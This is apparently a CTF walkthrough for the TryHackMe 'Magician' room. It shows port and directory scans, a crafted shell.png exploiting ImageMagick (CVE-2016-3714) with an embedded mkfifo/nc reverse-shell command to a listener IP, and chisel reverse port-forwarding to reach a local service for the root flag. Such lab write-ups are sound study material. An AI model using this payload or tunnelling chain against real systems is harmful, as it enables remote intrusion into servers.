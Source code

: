 ```yaml
---
layout: post
title: Walkthrough - Magician
published: true
---
```


Tags: CVE-2016-3714, chisel, port forward, tunnel
Description: Boot2root machine for FIT and bsides guatemala CTF.
Difficulty: Easy
URL: [https://tryhackme.com/room/glitch](https://tryhackme.com/room/glitch)

* * *

## Notes

- `sudo nmap -Pn -sS -T4 -p- magician -vvv`

```
PORT     STATE SERVICE         REASON
21/tcp   open  ftp             syn-ack ttl 61
8080/tcp open  http-proxy      syn-ack ttl 61
8081/tcp open  blackice-icecap syn-ack ttl 61
```

Visiting the website we have a `Whitelabel Error Page`

![](/assets/magician01.png)

- `gobuster dir -u http://magician:8080 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100` yeilds us a few results

```
/files                (Status: 200) [Size: 2]
/upload               (Status: 405) [Size: 0]
/error                (Status: 500) [Size: 105]
```

Port 8081 is where we find the magician site.

- create a shell.png with the following

```
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1 
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|mkfifo /tmp/ian; nc 10.2.127.225 6666 0</tmp/ian | /bin/sh >/tmp/ian 2>&1; rm /tmp/ian '
pop graphic.context
pop graphic.context
```

- setup pwncat listener and upload shell to recieve listener

* * * 

## user.txt?

![](/assets/magician02.png)

* * * 

## root.txt?

```
(remote) magician@magician:/home/magician$ cat the_magic_continues 
The magician is known to keep a locally listening cat up his sleeve, it is said to be an oracle who will tell you secrets if you are good enough to understand its meows.
```

- `netstat -l` we can see a connection on port 6666
- upload `chisel` via http or pwncat
- now to portforward on attacker machine `chisel server --reverse --port 9001`
- and on target machine `./chisel client 10.2.127.225:9001 R:9002:127.0.0.1:6666`
- we can now access the magic cat on `http://localhost:9002/` and cat root.txt
- decode it!

* * * 

